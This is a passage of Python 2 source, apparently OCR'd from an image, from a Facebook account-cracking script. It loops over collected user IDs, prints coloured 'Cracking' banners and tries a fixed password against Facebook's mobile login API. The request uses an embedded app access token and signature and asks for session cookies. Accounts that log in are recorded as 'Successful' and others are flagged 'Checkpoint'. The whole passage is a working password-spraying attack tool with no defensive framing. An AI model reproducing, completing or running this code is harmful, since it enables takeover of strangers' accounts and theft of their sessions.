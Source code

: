 		pilih_super()

		print "\033[1;96m \033[1;93mTotal IDs \033[1;91m: \033[1;97m"+str(len(id))

	jalan('\033[1;96m \033[1;93mStarting \033[1;97m...')

	titik = ['.   ','..  ','... ']

	for o in titik:

		print("\r\033[1;96m[\033[1;97m \033[1;96m] \033[1;93mCracking \033[1;97m"+o),;sys.stdout.flush();time.sleep(1)

	print

	print('\x1b[1;96m \x1b[1;93mTo Stop Process Press CTRL Then Press z')

	print 42*"\033[1;96m="

	

			

	def main(arg):

		global cekpoint,oks

		user = arg

		try:

			os.mkdir('out')

		except OSError:

			pass

		try:

			a = requests.get('https://graph.facebook.com/'+user+'/?access_token='+toket)

			b = json.loads(a.text)

			pass1 = ('khan123')

			data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass1)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")

			q = json.load(data)

			if 'access_token' in q:

				print '\x1b[1;96m[\x1b[1;92mSuccessful\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass1

				oks.append(user+pass1)

			else:

				if 'www.facebook.com' in q["error_msg"]:

					print '\x1b[1;96m[\x1b[1;93mCheckpoint\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m |\x1b[1;97m ' + pass1
